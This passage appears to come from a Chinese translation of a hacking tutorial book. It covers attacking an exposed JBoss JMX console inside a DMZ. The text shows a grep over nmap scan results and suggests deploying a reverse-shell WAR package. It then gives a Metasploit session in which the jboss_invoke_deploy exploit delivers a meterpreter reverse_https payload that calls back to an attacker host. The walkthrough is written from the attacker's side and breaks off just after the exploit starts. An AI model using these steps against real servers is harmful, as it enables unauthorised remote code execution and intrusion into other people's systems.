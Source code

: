 通过扫描结果来寻找“软柿子”，也就是可以被轻松提权执行代码的目标。

### 3.4.1 孤独的\(J\)Boss

跟预期的一样，该区域看起来有大量的 web 服务。大部分通过浏览互联网就能访问到；但是，我们终究是在**公网**。有些服务在先前的互联网扫描中并未被发现，这就是**中间件控制台**。

{% hint style="info" %}
**何为中间件** 中间件是一个组件，用来承载更高级别的应用，处理一些基本任务，例如排程、优先级、资源缓存、清理内存等等。Apache 就是一种承载网站的中间件。更精准的例子应该数 Java 中间件家族：JBoss、Tomcat、Jenkins等等。

作为黑客，让我们感兴趣的是这些中间件都有管理控制台，供开发者用来发布新的应用和升级已有应用，例如 CMS（译注：内容管理系统）。如果我们可以控制中间件，就能发布新的应用，从而在服务器上执行任意代码。
{% endhint %}

利用 **grep** 命令来查找 nmap 扫描结果中开放了 8080/8443/8081/8888 端口的服务器。这些可能通常对应 Jboss/Tomcat/Jenkins 等中间件。

```text
root@kali:~/book# grep -e "\ (8080\|8443\|8081\|8888\).*open" dmz_scan.gnmap |sed - r 's/,/\n/g'
Host: 192.168.1.70 ()
Ports: 
135/open/tcp//msrpc///
139/open/tcp//netbios-ssn///
445/open/tcp//microsoft-ds///
1026/open/tcp//LSA-or-nterm///
8009/open/tcp//ajp13///
8080/open/tcp//http-proxy///
```

通过 proxychains 启动Firefox，就能开心的看到 JBoss 主页了：

![JBoss&#x4E3B;&#x9875;&#x56FE;](.gitbook/assets/3.4-1.png)

访问 JMX 控制台，也就是 JBoss 的管理面板。看到没，不需要提供任何凭证，就能访问所有内容了。毕竟，“聪明”的管理员认为没有人可以访问 DMZ，是不是?

让 JAVA 中间件如此容易成为攻击目标的原因在于，它有太多控制台了： JMX 控制台、Web控制台、JmxInvokerServerlet等等，这还只是传统 HTTP 协议的控制台，其他特殊协议，例如RMI也有。

要确保所有东西都锁好，势必是需要做额外功的，但是当人们搭建测试服务器之后，就懒得再遵照安全守则操作了。他们会等服务器运行6个月，就认为万事大吉了。到那个时候，谁都不会记得这个管理面板的存在，或者只是指望其他人做了安全加固。

不管怎样，我们可以编写一个生成反弹 shell 的 Java 应用，打成**War**包，部署到 JBoss 服务器上，静静等到远程代码被执行。这一步操作也可以通过 metasploit 的**jboss\_invoke\_deply** 模块实现自动化：

```text
FrontGun$ msfconsole
msf > use exploit/multi/http/jboss_invoke_deploy

msf exploit(jboss_invoke_deploy) > set RHOST 192.168.1.70
RHOST => 192.168.1.70

msf exploit(jboss_invoke_deploy) > set payload java/meterpreter/reverse_https
payload => java/meterpreter/reverse_https

msf exploit(jboss_invoke_deploy) > set LHOST Front_Gun_IP
LHOST => 192.168.1.11

msf exploit(jboss_invoke_deploy) > set LPORT 443 
LPORT => 443

msf exploit(jboss_invoke_deploy) > exploit

[*] Started HTTPS reverse handler on https://0.0.0.0:443/
[*] Attempting to automatically select a target
[*] Attempting to automatically detect the platform 
```